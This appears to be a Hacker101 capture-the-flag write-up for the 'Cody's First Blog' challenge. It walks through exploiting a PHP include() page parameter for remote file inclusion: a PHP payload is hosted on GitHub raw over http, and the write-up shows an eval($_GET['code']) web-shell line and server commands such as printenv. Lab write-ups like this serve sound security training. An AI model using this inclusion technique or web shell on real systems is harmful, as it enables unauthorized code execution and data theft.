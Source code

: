 # Cody's First Blog

First thing we see:

![Cody's First Blog](./helpfull_files/landing_page.png)

And the source

```html
<!doctype html>
<html>
	<head>
		<title>Home -- Cody's First Blog</title>
	</head>
	<body>
		<h1>Home</h1>
		<p>Welcome to my blog!  I'm excited to share my thoughts with the world.  I have many important and controversial positions, which I hope to get across here.</p>

	<h2>September 1, 2018 -- First</h2>
	<p>First post!  I built this blog engine around one basic concept: PHP doesn't need a template language because it <i>is</i> a template language.  This server can't talk to the outside world and nobody but me can upload files, so there's no risk in just using include().</p>
<p>Stick around for a while and comment as much as you want; all thoughts are welcome!</p>


		<br>
		<br>
		<hr>
		<h3>Comments</h3>
		<!--<a href="?page=admin.auth.inc">Admin login</a>-->
		<h4>Add comment:</h4>
		<form method="POST">
			<textarea rows="4" cols="60" name="body"></textarea><br>
			<input type="submit" value="Submit">
		</form>
	</body>
</html>
```

The network tab doesn't show much. The response headers for the landing page are interesting though:

```
HTTP/2 200 OK
date: Mon, 28 Mar 2022 13:29:12 GMT
content-type: text/html
content-length: 586
server: openresty/1.19.9.1
x-powered-by: PHP/5.5.9-1ubuntu4.24
vary: Accept-Encoding
content-encoding: gzip
X-Firefox-Spdy: h2
```

---

## Flag 0 - PHP is still relevant you guys! I swear!


### Accessing the situation:

Let's see the hints:

```markdown
* What was the first input you saw?
```

The rest of the hints will be available in a little while. Hacker101 thinks I am spamming them. To be fair, yes I am spamming them because I don't trust you hacker101!

Immediately before doing anything, my first though when seeing php is to somehow insert this line of code somewhere in the website:

```php
<?php $code = $_GET['code'];
eval($code); ?>
```

to achieve basically a [reverse shell](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/) and be able to remotely control the server.

I will keep this at the back of my mind and see if we can use it later.

Anyway, let's continue.

Looking at the source code we see a very interesting comment. This is obviously left there on purpose and it is obviously a honeypot. I will completely ignore it.............. That is what a sensible person would say, but this CTF is to teach the really simple stuff, so let's go to `?page=admin.auth.inc`:

![admin page](./helpfull_files/admin.png)

```html
<!doctype html>
<html>
	<head>
		<title>Admin Login -- Cody's First Blog</title>
	</head>
	<body>
		<h1>Admin Login</h1>
		<form method="POST">
	Username: <input type="text" name="username"><br>
	Password: <input type="password" name="password"><br>
	<input type="submit" value="Log In"><br>
	</form>
		<br>
		<br>
		<hr>
		<h3>Comments</h3>
		<!--<a href="?page=admin.auth.inc">Admin login</a>-->
		<h4>Add comment:</h4>
		<form method="POST">
			<textarea rows="4" cols="60" name="body"></textarea><br>
			<input type="submit" value="Submit">
		</form>
	</body>
</html>
```

Thankfully the comments are still here. Which means that if we manage to write a comment that executes a payload it will probably work on the admin page too.

Putting a random username and password shows us the red message `Incorrect username or password`.

Let's write a comment. But not any comment. An html comment! This html comment for starters: `<h1>Hello Cody!!!</h1>`

`Comment submitted and awaiting approval` What? Oh come on! Come on Cody! Don't you trust me? Grrrr....

We've seen enough of the adin page, back to the main page.

`This server can't talk to the outside world and nobody but me can upload files, so there's no risk in just using include()`

This [here](https://www.php.net/manual/en/function.include.php) explains what `include()` does. Its usage can be summed up to "it loads a .php file and runs it".

So the plan seems to be to upload a custom php file and make it be included. Cody says that only him can upload a file though... Oh, what will we do now!

We will get back to the admin login page and start spamming it to see what happens!

*Some spamming and experimentation later*

The `?page=admin.auth.inc` is actually `index.php?page=admin.auth.inc`. And the variable `page` can have any value. For example it can have `test`. We see that an error message appears:

```
Notice: Undefined variable: title in /app/index.php on line 30

Warning: include(test.php): failed to open stream: No such file or directory in /app/index.php on line 21

Warning: include(): Failed opening 'test.php' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /app/index.php on line 21
```

And we have found the way to execute our code. Whatever value we put in `page` it gets put in an `include(_value_.php)` command. Can we escape out of this `include()` command? For example by passing the value `); echo 'hello';?>//`

```
Warning: include(); echo 'hello'; ?>//.php): failed to open stream: No such file or directory in /app/index.php on line 21
```

Ok, no, we can't. Or I am doing something wrong.

I realised that we know a file that exists on the server, `index.php`! This is going to be fun because `index.php` is going to include itself!

With `/index.php?page=index` got the response: `Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 16384 bytes) in /app/index.php on line 20`

`134217728 bytes` is 128 Mb worth of memory. These challenges are running with the bare minimum resources, aren't they?


I thought of sending this: `?page=http://localhost/index`. It loads the main page of course. But it still is funny!

I learned that `php.ini` is a thing! We can see it if we go to `/php.ini` and we can browse its [contents](./helpfull_files/php.ini)!

On it we see the memory limit we encountered before:
```ini
; Maximum amount of memory a script may consume (128MB)
; http://php.net/memory-limit
memory_limit = 128M
```
And these interesting settings:
```ini
allow_url_fopen = On
allow_url_include = On
```

Which should allow `include()` to access external files. But I can't manage to make it work for some reason! It shows no error. Maybe include() can't open https sites? I don't know.

![A few eternities later](./helpfull_files/one_eternity_later.jpg)

I did it! I actually did it! I have full control of the system! Ok, not full full, but full enough!

I have [uploaded a php file](./helpfull_files/payload.php) which I control the contents of. The problem is that `include()`, for some reason, doesn't work with `https`. Whatever, not a huge problem, I can deal with it.

After some errors and a few tries, I now have this:

![php injection](./helpfull_files/php_injection.png)

Let's try to find the flags now.

One flag is shown when running `cat index.php`

Another when clicking on `View page source` to actually see the text in `index.php`. It a comment a few lines down. I could actually fix that in my payload to not render any html it finds in the files... It doesn't matter now.

I remembered from the previous challenge that the environment variables could hold the flag. Let's check with `echo $(printenv)`:

![environment variables](./helpfull_files/printenv.png)

Hahahaha! They aren't on this one! Ok, I will keep looking!

We saw that there is a file called `admin.inc.php` open it by going to `/index.php?page=admin.inc`. Boom another flag.

I don't know why it is not possible to see the flag when doing `cat admin.inc.php`...


Anyway, another challenge down!


### Notes:
* What I used to host the payload was github. I made a public repo that contains this php file. Then I just copy the link to the raw contents of the file and convert `https` to `http`. Of course, I had to remove the extension `.php` because cody's code adds it automatically.
